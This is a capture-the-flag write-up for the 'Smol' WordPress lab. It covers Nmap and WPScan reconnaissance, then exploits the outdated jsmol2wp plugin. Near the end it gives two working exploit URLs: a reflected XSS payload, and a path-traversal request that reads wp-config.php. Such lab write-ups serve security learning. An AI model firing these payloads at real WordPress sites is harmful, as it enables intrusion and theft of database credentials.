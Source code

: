 
# Smol
## By josemlwdf

This room is a red challenge in which the description tells us directly that this is a **WordPress** website which has a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. 

## Recon

We start by doing a normal port scan with Nmap and find 2 open ports. I leave the all port scan running into the background so I can see if there's any ports that aren't visible in the top 1000, but we find nothing but the **SSH** on port **22** and the **HTTP** on port **80**.

![Nmap Scan Result](./screenshots/recon1.png)

I try to see how **port 80** is looking, but when I try to access it it tells me we can't connect to the server at **www.smol.thm**, so I go and add it at /etc/hosts.

![Can't connect to the server](./screenshots/recon2.png)

I start navigating the main page and meanwhile, I will put a directory scan to search if we can find anything that we don't see on the main page.

![Main page](./screenshots/recon3.png)

If we scroll all the way down, the hint at the beggining of the challenge of it being **WordPress** is being confirmed.

![WordPress](./screenshots/recon4.png)

To be honest, I've never done any WordPress room, or at least I can't remember one, so it's gonna be a first on my part. I tried doing a WPScan on it and this is what it returned.

```
wpscan --url www.smol.thm
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://www.smol.thm/ [10.10.222.122]
[+] Started: Wed Jul 23 12:47:11 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://www.smol.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://www.smol.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://www.smol.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://www.smol.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.7.1 identified (Outdated, released on 2024-11-21).
 | Found By: Rss Generator (Passive Detection)
 |  - http://www.smol.thm/index.php/feed/, <generator>https://wordpress.org/?v=6.7.1</generator>
 |  - http://www.smol.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.7.1</generator>

[+] WordPress theme in use: twentytwentythree
 | Location: http://www.smol.thm/wp-content/themes/twentytwentythree/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://www.smol.thm/wp-content/themes/twentytwentythree/readme.txt
 | [!] The version is out of date, the latest version is 1.6
 | [!] Directory listing is enabled
 | Style URL: http://www.smol.thm/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://www.smol.thm/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

We can see that **wp-content/uploads** its accessible from our so we go on the page and try to see if we can find any backups or sensitive data, but with no success.

![Uploads](./screenshots/recon5.png)

We can see the version of WordPress that it's running on the server is **6.7.1** which is outdated, but considering the hints that we got at the description of the challenge the intended way of approaching this machine is looking at the **publicly known vulnerable plugin** so we'll search for that. We find an article stating that JSmol2WP <= 1.7 which is the version we're running is vulnerable to LFI and XSS so we'll start our exploiting phase based on that.

---

## Exploit

I found a Git repository (https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt) refferenced in Pentest-Tools' article about the CVE (https://pentest-tools.com/vulnerabilities-exploits/wordpress-jsmol2wp-107-local-file-inclusion_2654), and it explains along with PoCs how to exploit the vulnerability found in that plugin. I firstly tested the **XSS** in the URL to see if it reflects and if the exploit is actually working:

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=%3Cscript%3Ealert(/xss/)%3C/script%3E&mimetype=text/html;%20charset=utf-8
```

Which got me this response:

![PoC XSS](./screenshots/exploit1.png)

**We have a hit!**

Next we will use **directory traversal** to look through the folders on the server.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

And we got this:

![PoC wp-config](./screenshots/exploit2.png)
